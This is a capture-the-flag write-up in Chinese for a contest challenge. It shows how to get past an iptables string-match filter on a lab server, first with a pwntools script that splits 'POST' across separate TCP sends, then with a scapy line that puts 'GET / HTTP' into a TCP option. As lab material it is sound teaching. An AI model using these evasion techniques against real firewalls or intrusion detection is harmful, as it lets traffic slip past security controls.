 ## Komm, süsser Flagge

### 我的 POST

查了查说是这个 [bm 算法有问题](https://serverfault.com/questions/1141991/what-is-the-difference-bm-and-kmp-algorithms-in-iptables-string-search)。也不知道 a matching could be spread over multiple blocks 究竟是什么情况，但姑且就猜是不能跨 IP packet 边界匹配 TCP data？

于是写了这么个代码（其实我也不确定两次 `send` 是不是一定会导致两个 packet）：

```python
from pwn import *

r = remote('192.168.23.1', 18080)
r.send(b'P')
r.send(b'OST / HTTP/1.1\r\n')
r.send(b'Host: foobar\r\n')
r.send(b'Content-Length: 101\r\n\r\n')
r.send(b'<TOKEN_HERE>')
data = r.recv()
print(data)
```

反正就拿到 flag 了。

### 我的 P

上面一样的代码就行…… 但我也不知道为啥行。是不是组委会配错了？

### 我的 GET

这题思路很早就有了，只要往 TCP options 里塞个字符串 `GET / HTTP` 就行。但我一开始试了试 `setsockopt`，不让随便设置 TCP options，也不知道什么工具能做这么底层的操作。

后来发现 scapy 可以。网上随便找了个 scapy 实现 [TCP 握手的代码](https://gist.github.com/tintinweb/8523a9a43a2fb61a6770) 改了一下，完整代码在 [res/komm_my_get.py](res/komm_my_get.py)。

基本上改的地方就是：

```python
self.l4 = IP(dst=target[0])/TCP(sport=self.sport, dport=self.dport, flags=0,                                                   seq=random.randrange(0,2**32), options=[(88, "GET / HTTP")])
```